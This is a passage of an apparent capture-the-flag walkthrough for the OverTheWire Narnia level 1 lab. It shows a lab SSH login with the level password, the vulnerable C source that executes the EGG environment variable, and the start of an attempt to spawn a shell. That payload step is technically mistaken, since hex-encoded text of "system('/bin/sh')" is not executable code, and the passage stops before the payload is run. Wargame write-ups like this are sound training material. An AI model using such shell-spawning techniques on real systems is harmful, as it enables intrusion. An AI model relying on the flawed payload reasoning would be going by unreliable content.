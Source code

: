 ```bash
user@host:~$ ssh narnia1@narnia.labs.overthewire.org -p 2226
efeidiedae
```

Just like in level 0 we will navigate to the `/narnia` directory, as there were some programs for each level. Let us first take a look at the program `narnia1`:

```bash
narnia1@narnia:/narnia$ ./narnia1
Give me something to execute at the env-variable EGG
```

The source code for the program is (excluding the licensing information):

```c
narnia1@narnia:/narnia$ cat narnia1.c
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```

The program will try to execute whatever is in the environment variable `EGG`. Currently, that variable is NULL.

```sh
narnia1@narnia:/narnia$ echo $EGG

```

Let us try to spawn a shell by exporting `system('/bin/sh')` as bytes into `EGG`. Again, we can use python to do this.

``` python
egg: str = "\\x" + "\\x".join(f"{b:x}" for b in b"system('/bin/sh')")
print(egg)
>>> '\x73\x79\x73\x74\x65\x6d\x28\x27\x2f\x62\x69\x6e\x2f\x73\x68\x27\x29'
```
